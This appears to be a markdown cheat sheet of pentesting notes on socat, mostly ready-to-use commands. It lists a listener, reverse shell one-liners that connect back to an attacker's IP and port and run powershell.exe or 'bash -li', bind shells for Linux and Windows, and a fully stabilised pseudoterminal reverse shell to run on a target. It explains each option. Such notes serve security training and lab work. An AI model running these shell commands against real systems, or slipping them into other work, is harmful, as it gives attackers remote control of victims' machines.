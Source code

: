 # Basics
In general socat just connects two point. E.g. a listener and std-in.

`-d -d` - increases verbosity for debugging if the shell is not working. Not used for general operation.

# Shells
## Reverse shells
**Listeners** \
`socat TCP-L:<port> -` equivalent to `nc -lvnp <port>` \

**Reverse Shell** \
Windows: \
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` \
The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output. \

Linux: \
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

## Bind shells
**Linux**
`socat TCP-L:<PORT> EXEC:"bash -li"`
**Windows**
`socat TCP-L:<PORT EXEC:powershell.exe,pipes>` - We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

## Fully stable linux shell
Socat must be installed on linux target. \
``socat TCP-L:<port> FILE:`tty`,raw,echo=0`` - fully stable Linux reverse shell \
`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane` - execute this command on target.
- pty, allocates a pseudoterminal on the target -- part of the stabilisation process
- stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
- sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- setsid, creates the process in a new session
- sane, stabilises the terminal, attempting to "normalise" it.
